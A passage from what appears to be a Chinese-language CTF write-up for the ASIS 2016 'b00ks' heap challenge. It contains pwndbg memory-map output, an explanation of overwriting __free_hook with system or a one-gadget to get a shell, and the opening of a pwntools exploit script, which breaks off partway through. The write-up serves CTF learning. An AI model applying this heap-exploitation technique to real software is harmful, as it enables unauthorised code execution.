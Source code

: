 ```shell
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /home/skye/Desktop/CTF学习/chunk/asis-ctf-2016-b00ks/b00ks
    0x555555755000     0x555555756000 r--p     1000 1000   /home/skye/Desktop/CTF学习/chunk/asis-ctf-2016-b00ks/b00ks
    0x555555756000     0x555555757000 rw-p     1000 2000   /home/skye/Desktop/CTF学习/chunk/asis-ctf-2016-b00ks/b00ks
    0x555555757000     0x555555778000 rw-p    21000 0      [heap]
    0x7ffff79e4000     0x7ffff7bcb000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bcb000     0x7ffff7dcb000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcb000     0x7ffff7dcf000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd1000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dd1000     0x7ffff7dd5000 rw-p     4000 0      
    0x7ffff7dd5000     0x7ffff7dfc000 r-xp    27000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7f9a000     0x7ffff7fe0000 rw-p    46000 0      
    0x7ffff7ff7000     0x7ffff7ffa000 r--p     3000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 27000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 28000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
```

##### 写入 __free_hook

可以写入 onegadget 也可以是 system ，如果是 system ，需要 free 的 book_name 是 /bin/sh 来传入参数。

##### exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe、CTF-WIKI
# @Email   : skye231@foxmail.com
# @File    : b00ks.py
from pwn import *
context.log_level="debug"

p=process("./b00ks")
elf=ELF("b00ks")
libc=ELF("./libc.so.6")


def createbook(name_size,name,des_size,des):
	p.readuntil("> ")
	p.sendline("1")
	p.readuntil(": ")
	p.sendline(str(name_size))
	p.readuntil(": ")
	p.sendline(name)
	p.readuntil(": ")
	p.sendline(str(des_size))
	p.readuntil(": ")
	p.sendline(des)

def printbook(id):
	p.readuntil("> ")
	p.sendline("4")
	p.readuntil(": ")
	for i in range(id):
		book_id=int(p.readline()[:-1])
		p.readuntil(": ")
```